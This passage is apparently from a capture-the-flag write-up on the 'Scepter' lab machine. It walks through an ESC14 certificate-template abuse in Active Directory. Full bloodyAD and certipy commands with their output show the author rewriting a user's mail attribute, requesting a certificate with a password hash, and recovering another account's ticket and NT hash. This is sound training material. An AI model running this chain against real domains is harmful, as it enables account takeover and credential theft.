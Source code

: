 > Although the recovered files mention ESC9 I found it is not vulnerable, I'll discuss further in [Beyond Root](#beyond-root). Instead let's enumerate further and attempt an exploitation of ESC14
{:.info}

Since `h.brown` is a member of `Remote Management Users` let's set him as a target.
![scepter-1745119802514.png](/assets/img/img_scepter/scepter-1745119802514.png)

Let's also take a closer look at the certificate template.
```
 Certificate Name Flag               : SubjectRequireEmail
                                       SubjectRequireDnsAsCn
                                       SubjectAltRequireEmail
```

Looks like we need an email. Let's give `h.brown`'s email to `d.baker` using the email convention we found earlier.
```bash
bloodyAD --host $TARGET -d scepter.htb -u a.carter -p P@ssword set object d.baker mail -v h.brown@scepter.htb
 
[+] d.baker`s mail has been updated
```

Let's now request a certificate.
```bash
certipy req -username 'd.baker@scepter.htb' -hashes ':18b5fb0d99e7a475316213c15b6f22ce' -ca scepter-dc01-ca -template StaffAccessCertificate

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate without identification
[*] Certificate has no object SID
[*] Saved certificate and private key to 'd.baker.pfx'
```

Success!  Let's now grab credentials.
```bash
certipy auth -pfx d.baker.pfx -username h.brown -domain scepter.htb

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: h.brown@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'h.brown.ccache'
[*] Trying to retrieve NT hash for 'h.brown'
[*] Got hash for 'h.brown@scepter.htb': aad3b435b51404eeaad3b435b51404ee:4ecf5242092c6fb8c360a08069c75a0c
```
